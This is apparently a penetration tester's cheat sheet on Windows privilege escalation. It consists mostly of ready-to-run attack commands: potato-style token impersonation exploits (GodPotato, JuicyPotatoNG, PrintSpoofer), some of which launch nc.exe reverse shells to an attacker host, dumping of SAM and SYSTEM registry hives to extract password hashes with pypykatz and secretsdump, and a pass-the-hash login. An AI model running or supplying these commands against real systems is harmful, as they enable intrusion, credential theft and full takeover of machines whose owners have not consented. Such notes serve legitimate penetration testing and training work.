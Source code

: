 > <https://github.com/ohpe/juicy-potato/tree/master/CLSID>

> <https://github.com/itm4n/PrintSpoofer>

```shell
# GodPotato
GodPotato.exe -cmd "cmd /c whoami"
GodPotato.exe -cmd "shell.exe"

# get .NET version
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse

# JuicyPotatoNG
JuicyPotatoNG.exe -t * -p "shell.exe" -a
JuicyPotatoNG.exe -t * -p "cmd.exe" -a "/c nc.exe <ip> <port> -e cmd"
# find available ports
JuicyPotatoNG.exe -s

# PrintSpoofer
PrintSpoofer.exe -i -c powershell.exe
PrintSpoofer.exe -c "nc.exe <lhost> <lport> -e cmd"
```

### SeBackupPrivilege

```shell
# using robocopy, extract data from forbidden folders
robocopy /b c:\users\enterpriseadmin\desktop . * 

# or

# get sam and system
reg save hklm\sam .\sam
reg save hklm\system .\system     

# use pypykatz to get user hashes and PTH or hashcat with -m 1000 to get passwords
pypykatz registry --sam sam system

# or secretsdump
impacket-secretsdump -system SYSTEM -sam SAM local # always mention local in the command
```

### SeManageVolumePrivilege

> <https://github.com/CsEnox/SeManageVolumeExploit>

## Pass the Hash

!!! info
    Remember that the full hash includes both the LM and NTLM hash, separated by a colon.

```shell
pth-winexe -U 'administrator%hash' //10.10.56.135 cmd.exe
```
